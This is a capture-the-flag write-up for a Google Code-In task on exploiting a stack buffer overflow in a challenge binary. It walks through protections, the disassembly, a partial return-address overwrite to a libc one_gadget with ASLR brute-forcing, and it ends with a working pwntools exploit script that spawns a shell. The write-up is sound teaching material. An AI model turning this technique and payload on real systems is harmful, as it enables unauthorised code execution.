 +++
title = "GCI - Fedora Project - Exploiting a Buffer Overflow Vulnerability"
date = 2019-12-15
aliases = ["/posts/5df6fd3b0898260951d4389b-gci-fedora-project-exploiting-a-buffer-overflow-vulnerability"]
[taxonomies]
tags = ["google-code-in", "pwn", "buffer-overflow", "aslr", "rce"]
categories = ["ctf-writeups"]
+++

# Challenge

We are given a binary to exploit. By running `checksec` on it, we see that the binary has the following protections:
[show-line-numbers]: false
```Plaintext
Canary                        : No
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```

Because the binary has NX, we cannot place executable shell code in a buffer and then jump to it. PIE allows the code 
section of the binary to be located anywhere in memory. This means that we don't know the address of functions within 
the binary; however, we still know relative offsets.


## Reverse Engineering

```
Dump of assembler code for function main:
   0x0000000000001145 <+0>:     push   rbp                                  # Setup Stack
   0x0000000000001146 <+1>:     mov    rbp,rsp                              
   0x0000000000001149 <+4>:     sub    rsp,0x110                            # Allocate 0x110 bytes on stack
   0x0000000000001150 <+11>:    mov    DWORD PTR [rbp-0x104],edi            # Copies edi into stack offset 0x104
   0x0000000000001156 <+17>:    mov    QWORD PTR [rbp-0x110],rsi            # Copies rsi into stack offset 0x110
   0x000000000000115d <+24>:    mov    rax,QWORD PTR [rbp-0x110]            # Copies value of pointer into rax
   0x0000000000001164 <+31>:    add    rax,0x8                              # Adds size_t
   0x0000000000001168 <+35>:    mov    rdx,QWORD PTR [rax]                  # Copies the value of the pointer [rax + 8] into rdx
   0x000000000000116b <+38>:    lea    rax,[rbp-0x100]                      # Loads the address of [rbp - 0x100] into rax
   0x0000000000001172 <+45>:    mov    rsi,rdx                              # rsi = rdx
   0x0000000000001175 <+48>:    mov    rdi,rax                              # rdi = rax
   0x0000000000001178 <+51>:    call   0x1030 <strcpy@plt>                  # Calls strcpy(rsi, rdi) ; strcpy ([rbp - 0x100], argv[1])
   0x000000000000117d <+56>:    lea    rax,[rbp-0x100]                      # Loads address of [rbp-0x100] into rax
   0x0000000000001184 <+63>:    mov    rdi,rax                              # rdi = rax
   0x0000000000001187 <+66>:    call   0x1040 <puts@plt>                    # puts(rdi)
   0x000000000000118c <+71>:    mov    eax,0x0                              # return 0
   0x0000000000001191 <+76>:    leave                                       
   0x0000000000001192 <+77>:    ret                                         
End of assembler dump.
```

<!-- more --> 

We can see that `argv[1]` is copied into a 0x100 byte buffer on the stack. However, there are no checks on the size of `argv[1]`. This is plainly a stack overflow vulnerability. 

## Exploit

Now that we have an understanding of what the binary does, we can construct a payload to get code execution. Since the canary is not enabled, we can overwrite the return address. However, because of PIE and ASLR, we don't have any clear targets to jump to.


### Where do we jump?

The binary is dynamically linked and uses the system libc. We can find targets within the binary, when jumped to, result in a call to `execve("/bin/sh", NULL, NULL)` and lead to "a shell".  The tool [one_gadget](https://github.com/david942j/one_gadget) finds offsets to these one gadgets within a given libc binary. Running `one_gadget libc.so.6` gives the following output:

![](5df7042c0898260951d4389c.png)


However, we don't know the base address that libc is loaded at.


### How?

Generally, the libc runtime handles initializes itself before calling `main`. This means that when `main` returns, we end up within libc. In fact, in this [asciinema](https://asciinema.org/a/JRs1KT1HQCoDUSDAmW1r6CCcC), we see that `main` returns to `__libc_start_main` within libc. 

If we overflow the buffer, we can overwrite this address. We could overwrite the entire return pointer, but what if we only overwrote it partially? This is known as a partial overwrite. Since all functions within libc have the same base address, we can overwrite the lower bytes of the return pointer to jump to any known offset within libc.

### One small problem

When `strcpy` is called, it adds a null byte to the end of the destination buffer. If we attempt a partial overwrite, this will result `0x00` being placed within the return pointer.

To overcome this, we can bruteforce ASLR by repeatedly running the program until libc is loaded in a position that matches the overwritten return pointer. We need to bruteforce 1.5 bytes (because the one_gadget is `4f2c5`, we only need to bruteforce the upper half of `0x?4` and the null byte before it). This means that, on average, we will need to execute the program `4096` times before successfully reaching a shell.

## Full Script

{{ asciinema(id="vaUS0kLREa4r92cFJuaipXW5u") }}

```Python
from pwn import *

while True:
        try:
                r = process(['./exploitme', 'A'*264 + '\xc5\xf2\x04'])
                r.sendline('ls')
                print(r.can_recv())
                r.interactive()
        except EOFError:
                pass
```


> This is a writeup for this [Google Code-In task](https://codein.withgoogle.com/dashboard/task-instances/5481487256780800/)
